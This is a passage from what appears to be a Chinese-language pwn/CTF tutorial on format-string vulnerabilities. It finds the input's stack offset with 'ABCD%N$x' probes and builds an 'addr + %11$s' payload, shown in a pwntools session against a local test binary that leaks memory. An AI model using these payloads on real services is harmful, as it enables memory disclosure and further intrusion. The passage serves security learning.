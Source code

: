其中局部变量是储存在栈中，而且是储存在栈的高位地址上，这里具体细节可以去读读汇编代码，简单的说，进入到一个函数中后，会 `sub rsp,xxx` 一段局部变量的栈空间，然后函数的参数啥的都是push到局部变量的栈空间之上

理解了上述的知识点后，我们可以输入想leak数据的内存地址，然后爆破出我们输入数据的位置，不就能leak相应地址的内存的数据了么

比如我输入 `ABCD%2$x` ，如果输出 `ABCD` 十六进制值，则说明第二个参数为我们输入的数据的起始位置.

```
$ nc 127.0.0.1 10001
ABCD%2$x  
ABCD400

$ nc 127.0.0.1 10001
ABCD%3$x  
ABCD174

$ nc 127.0.0.1 10001
ABCD%4$x  
ABCD174

....

$ nc 127.0.0.1 10001
ABCD%11$x  
ABCD44434241
```

这样我们就能得到payload: `addr + %11$s` , 返回值为 `addr` 指向的内存的字符串，直到 `\0` 为止

这里我们可以进行测试下(我们现在是处于研究状态，虽然假想没bin，但实际我们是有的，所以可以进行测试来证明我们的结论)

```
$ objdum -d fmt_test -M intel

....

080485c4 <_fini>:  
 80485c4:    53                      push   ebx
 80485c5:    83 ec 08                sub    esp,0x8
 80485c8:    e8 33 fe ff ff          call   8048400 <__x86.get_pc_thunk.bx>
 80485cd:    81 c3 33 1a 00 00       add    ebx,0x1a33
 80485d3:    83 c4 08                add    esp,0x8
 80485d6:    5b                      pop    ebx
 80485d7:    c3                      ret    

$ py                          
>>> from pwn import *

>>> p = remote("127.0.0.1",10001)
[x] Opening connection to 127.0.0.1 on port 10001
[x] Opening connection to 127.0.0.1 on port 10001: Trying 127.0.0.1
[+] Opening connection to 127.0.0.1 on port 10001: Done

>>> p.send(p32(0x80485c4)+"%11$s")

>>> p.recv()
'\xc4\x85\x04\x08S\x83\xec\x08\xe83\xfe\xff\xff\x81\xc33\x1a'

>>>
```
